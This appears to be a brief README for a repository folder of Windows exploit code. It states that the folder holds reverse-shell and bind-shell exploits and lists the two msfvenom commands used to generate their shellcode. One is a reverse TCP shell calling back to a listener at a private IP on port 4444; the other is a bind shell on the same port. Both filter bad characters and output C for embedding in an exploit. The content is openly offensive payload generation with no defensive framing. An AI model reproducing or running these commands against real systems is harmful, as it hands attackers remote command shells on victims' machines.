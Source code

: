 This folder contains the exploit for both reverse_shell and bind_shell.

Reverse_Shell won't work for you.(:D) But try bind_tcp it will work.

#Command used to create Reverse_shell 

msfvenom -p windows/shell_reverse_tcp lhost=192.168.176.130 lport=4444 -f c -a x86 -b "\x00\x0a\x0d" EXITFUNC=thread
You can change lhost and lport accordingly.

#Command used to create Bind_shell

msfvenom -p windows/shell_bind_tcp lport=4444 -a x86 -b "\x00\x0a\x0d" -f c EXITFUNC=thread



